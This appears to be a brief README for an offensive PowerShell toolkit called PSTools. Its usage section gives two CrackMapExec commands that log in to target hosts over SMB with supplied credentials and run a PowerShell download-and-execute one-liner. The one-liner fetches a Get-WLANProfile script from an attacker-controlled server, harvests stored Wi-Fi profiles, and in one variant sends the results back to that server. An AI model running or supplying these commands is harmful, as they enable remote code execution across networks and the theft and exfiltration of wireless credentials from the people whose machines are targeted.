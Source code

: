 # PSTools (WIP)

## Usage

ASYNC EXEC:

```cme smb $TARGETS -u $USER$ -p $PASSWORD$ -X "IEX (new-object net.webclient).downloadstring('http://$IP:8000/Get-WLANProfile.ps1'); Get-WLANProfile -AsyncURI http://$IP:8000;" --no-output```

SYNC EXEC:

```cme smb $TARGETS -u $USER$ -p $PASSWORD$ -X "IEX (new-object net.webclient).downloadstring('http://$IP:8000/Get-WLANProfile.ps1'); Get-WLANProfile;"```

## Acknowledgments
* @neosysforensics for his guide and help
* I copied and modified some scripts from here: https://github.com/BornToBeRoot/PowerShell
